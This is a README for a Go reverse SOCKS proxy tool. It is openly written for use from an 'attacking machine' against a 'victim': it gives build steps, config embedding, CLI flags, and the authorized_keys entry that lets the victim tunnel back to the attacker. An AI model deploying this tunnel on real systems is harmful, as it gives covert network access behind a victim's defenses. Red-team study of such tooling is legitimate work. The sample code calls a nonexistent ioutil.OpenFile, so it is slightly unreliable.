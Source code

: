 # HoleySocks

A simple cross-platform reverse socks proxy.


## Getting Started

### As a module

```go
import github.com/audibleblink/HoleySocks/pkg/holeysocks

func main() {
	//error handling removed for brevity
	config := holeysocks.MainConfig{}
        configBytes, _ := ioutil.OpenFile("ssh.json")
        json.Unmarshal(configBytes, &config)
	
	sshKey, _ := ioutil.OpenFile("id_ed25519")
	config.SSH.SetKey(sshKey)
	
        holeysocks.DarnSocks(config)
	// #DarnSocks runs two goroutines then returns so we have to keep main from returning
	select {}
}
```


### As a standalone binary

It's possible to embed all the required parameters to start and forward
the socks server with SSH so that cli flags are not needed.
Do this by creating `config/ssh.json` and using the `-X main.static=1` ldflag.

```bash
# needed for embedding configs in the binary
go get -u github.com/gobuffalo/packr/...

go get github.com/audibleblink/HoleySocks/...
cd $GOPATH/src/github.com/audibleblink/HoleySocks

... edit configs/ssh.json ...

make depends
make
```

To compile a generic binary without embedded configs, remote the `-X` ldflag from the `Makefile` or 
just `go build` as necessary. You should get a binary that's configurable with these flags:

```
Usage of binaries/linux/HoleySocks64:
  -sshuser string
        [REQ] SSH user ong the host
  -sshhost string
        [REQ] SSH host with which to connect
  -pkey string
        [REQ] File path for private key
  -rport int
        SSH host port on which to bind the local SOCKS server (default 1080)
  -socksport int
        Bind port of the SOCKS server (default 1080)
  -sshport int
        SSH host destination port (default 22)
```

Read the Makefile for more options

**CAUTION**
The generated private keys are embedded into the binary to allow for the reverse
port forwarding without interaction. Follow the instructions below.

Before running the generated binaries, you'll need a user on your attacking machine
for receiving the reverse ssh connection that forwards the socks proxy from the victim.

Once that user has been created, (with a homedir and /bin/false shell), append the generated
pubkey in your authorized_keys file on the attacking machine.

Do so with the following prefixes:

```
# if you're forwarding port 1080
FROM=<victim_ip_or_host> NO-X11-FORWARDING,PERMITOPEN="0.0.0.0:1080" ssh-ed25519 AAAAC3......
```

The Makefile should generate the needed commands and entry for you when you run `make depends`
